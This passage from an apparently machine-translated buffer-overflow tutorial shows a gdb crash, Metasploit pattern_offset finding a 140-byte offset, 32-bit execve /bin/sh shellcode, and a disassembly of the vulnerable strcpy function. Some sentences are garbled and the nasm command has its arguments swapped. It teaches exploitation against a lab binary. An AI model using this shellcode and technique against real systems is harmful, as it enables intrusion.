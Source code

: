 Program received signal SIGSEGV, Segmentation fault.  
0x37654136 in ?? ()  
(gdb) quit  
A debugging session is active.

Inferior 1 \[process 7579\] will be killed.

Quit anyway? (y or n) y

$ echo -e “x36x41x65x37”  
6Ae7

$ /opt/metasploit/tools/exploit/pattern\_offset.rb -q 6Ae7  
\[\*\] Exact match at offset 140

Now what we do is introduce machine code that performs the actions we want, for example, run `/bin/sh` for a shell. This code is called shellcode, precisely because it is a code that usually get a shell. On the Internet there are numerous shellcodes that can be used (yes, you should always verify that it does what it claims to do, before using it), but in the next episode we will see how to build a good shellcode for every occasion, no beauty want anyone programming in asm miss.

Anyway, for now we better this shellcode

xor eax, eax  
push eax  
push 0x68732f2f  
push 0x6e69622f  
mov ebx, esp  
push eax  
push ebx  
mov ecx, esp  
mov al, 0xb  
int 0x80

We can assemble with nasm (nasm -o sc.asm sc.bin is necessary to add at the beginning a line “BIT 32” to indicate that the assembly as a 32-bit code) .We can get the assembly opcodes (opcode is the value number (usually in hex) corresponding to an assembler instruction, ie machine language) by xxd sc.bin.

Well, the shellcode should have no 0x00 because strcpy () finishes copying to find that value, and made this shellcode is designed to avoid them.  
The shellcode it will place at the beginning of buf, so now we need to get the address of buf, evidently by gdb:

(gdb) disas print 
Dump of assembler code for function print:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x88,%esp
   0x080484cb <+9>:     sub    $0x8,%esp
   0x080484ce <+12>:    pushl  0x8(%ebp)
   0x080484d1 <+15>:    lea    -0x88(%ebp),%eax
   0x080484d7 <+21>:    push   %eax
   0x080484d8 <+22>:    call   0x8048370 <strcpy@plt>
   0x080484dd <+27>:    add    $0x10,%esp
   0x080484e0 <+30>:    sub    $0xc,%esp
   0x080484e3 <+33>:    lea    -0x88(%ebp),%eax
   0x080484e9 <+39>:    push   %eax
   0x080484ea <+40>:    call   0x8048380 <puts@plt>
   0x080484ef <+45>:    add    $0x10,%esp
   0x080484f2 <+48>:    nop
   0x080484f3 <+49>:    leave  
   0x080484f4 <+50>:    ret    
End of assembler dump.
